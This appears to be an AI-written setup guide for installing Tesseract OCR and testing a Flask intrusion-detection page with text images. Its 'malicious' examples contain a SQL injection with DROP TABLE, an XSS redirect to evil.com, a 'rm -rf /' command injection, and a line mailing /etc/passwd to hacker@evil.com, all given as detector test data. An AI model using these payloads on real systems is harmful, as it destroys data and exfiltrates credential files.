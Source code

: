 # 🖼️ OCR Setup Guide for Image Analysis

## 📥 Install Tesseract OCR on Windows

### Step 1: Download Tesseract
1. Go to: https://github.com/UB-Mannheim/tesseract/wiki
2. Download the latest Windows installer (.exe file)
3. Run the installer and follow the setup wizard
4. **Important**: During installation, note the installation path (usually `C:\Program Files\Tesseract-OCR`)

### Step 2: Add to System PATH
1. Open System Properties → Environment Variables
2. Add the Tesseract installation path to your PATH variable
3. Example: `C:\Program Files\Tesseract-OCR`

### Step 3: Verify Installation
Open Command Prompt and run:
```bash
tesseract --version
```

### Step 4: Install Python Package
```bash
pip install pytesseract
```

## 🎯 Image Test Examples

Since you don't have OCR installed yet, here are examples of what to test:

### 🔴 MALICIOUS IMAGE TEXT EXAMPLES (3)

Create simple images (using Paint or any image editor) with this text:

#### Image 1: SQL Injection
```
Username: admin
Password: ' OR 1=1; DROP TABLE users; --
```

#### Image 2: XSS Attack
```
<script>
alert('Website compromised!');
document.location='http://evil.com';
</script>
```

#### Image 3: Command Injection
```
File: important.txt; rm -rf /
Command: cat /etc/passwd | mail hacker@evil.com
```

### 🟢 NORMAL IMAGE TEXT EXAMPLES (3)

#### Image 1: System Message
```
System Status: All services running normally
Last backup: January 15, 2024 at 2:00 AM
Next maintenance: January 20, 2024
```

#### Image 2: User Information
```
Name: John Doe
Department: IT Support
Email: john.doe@company.com
Phone: (555) 123-4567
```

#### Image 3: Meeting Notes
```
Meeting: Weekly Team Standup
Date: January 15, 2024
Attendees: 12 people
Topics: Project updates, Q1 planning
```

## 🔧 Quick Test Without OCR

If you want to test the system before installing OCR:

1. **Text Analysis**: Use the examples from `test_data_text_examples.md`
2. **CSV Analysis**: Use the CSV files I created:
   - `test_malicious_1.csv` (SQL injection)
   - `test_malicious_2.csv` (phishing)
   - `test_malicious_3.csv` (network attacks)
   - `test_normal_1.csv` (user activity)
   - `test_normal_2.csv` (system logs)
   - `test_normal_3.csv` (support tickets)

## 📝 Alternative: Create Simple Test Images

Use any image editor to create PNG/JPG files with the malicious/normal text examples above. The OCR will extract the text and analyze it for threats.

## ⚡ Quick OCR Installation (Alternative Method)

If the main installation doesn't work, try:

1. Download portable version from: https://digi.bib.uni-mannheim.de/tesseract/
2. Extract to `C:\tesseract`
3. Add `C:\tesseract` to your PATH
4. Restart your command prompt/IDE

## 🎉 Ready to Test!

Once Tesseract is installed:
1. Restart your Flask application
2. Go to the IDS page
3. Try uploading images with the text examples above
4. The system will extract text using OCR and analyze for threats!
